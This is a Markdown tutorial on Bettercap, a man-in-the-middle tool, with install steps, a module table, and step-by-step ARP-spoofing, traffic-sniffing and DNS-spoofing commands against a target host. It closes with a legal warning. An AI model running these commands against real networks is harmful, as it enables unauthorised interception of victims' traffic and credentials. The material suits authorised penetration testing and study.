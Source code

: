 ## 🛡️ **Bettercap

### 🔷 What is Bettercap?

**Bettercap** is a powerful, flexible, and modular **network attack and monitoring tool** created to perform **Man-In-The-Middle (MITM)** attacks, packet sniffing, real-time manipulation of network traffic, credential harvesting, and more.

It is written in Go and supports:

- Ethernet/Wi-Fi MITM
    
- HTTPS downgrading
    
- DNS spoofing
    
- Network scanning
    
- Packet injection
    
- BLE, HID, and RFID attacks
    

---

## 🧰 Installation

### On Kali Linux (pre-installed in most cases):

```bash
sudo apt update
sudo apt install bettercap -y
```

### Verify:

```bash
bettercap --version
```

---

## ⚙️ Running Bettercap

### Basic command:

```bash
sudo bettercap -I eth0
```

- Replace `eth0` with your actual interface (`ip a` to list interfaces).
    
- Use `wlan0` for Wi-Fi.
    

---

## 💻 Bettercap Interactive Shell

Once inside, the prompt changes to:

```text
bettercap >
```

From here, you can issue module-specific commands.

---

## 🔍 Common Bettercap Modules

|Module|Description|Command|
|---|---|---|
|`net.probe`|Actively scan LAN for live hosts|`net.probe on`|
|`net.show`|Show discovered devices|`net.show`|
|`arp.spoof`|Launch ARP spoofing|`arp.spoof on`|
|`http.proxy`|Intercept and modify HTTP traffic|`http.proxy on`|
|`https.proxy`|MITM HTTPS via SSL stripping (needs setup)|`https.proxy on`|
|`dns.spoof`|Redirect DNS queries|`dns.spoof on`|
|`sniffer`|Capture network packets|`sniffer on`|
|`events.stream`|Show events in real-time|`events.stream on`|

---

## 🎯 Example: Basic MITM Attack with ARP Spoofing

### 1. Start Bettercap:

```bash
sudo bettercap -I eth0
```

### 2. Enable network scanning:

```bash
net.probe on
```

### 3. Show detected hosts:

```bash
net.show
```

### 4. Set a target IP:

```bash
set arp.spoof.targets 192.168.0.105
```

### 5. Start ARP spoofing:

```bash
arp.spoof on
```

### 6. Start sniffer (to capture data):

```bash
set sniffer.output /home/user/sniffed.pcap
sniffer on
```

> You can analyze the `.pcap` file in **Wireshark** later.

---

## 🧪 DNS Spoofing Example

```bash
set dns.spoof.domains example.com
set dns.spoof.address 192.168.0.100
dns.spoof on
```

When the victim browses `example.com`, they are redirected to `192.168.0.100`.

---

## 🛑 Stop & Exit

- To stop a module: `arp.spoof off`
    
- To quit: `exit`
    

---

## 📁 Logs and Output

- Sniffer: Outputs `.pcap` file for Wireshark
    
- Events: Displayed via `events.stream on`
    

---

## ⚠️ Legal Warning

> **Use Bettercap only in environments where you have explicit permission** (e.g., penetration tests with a signed scope). Unauthorized usage is illegal and unethical.

---
## 🏷️ Tags

#Cyber_Security #Kali_Linux #Wifi_Hacking 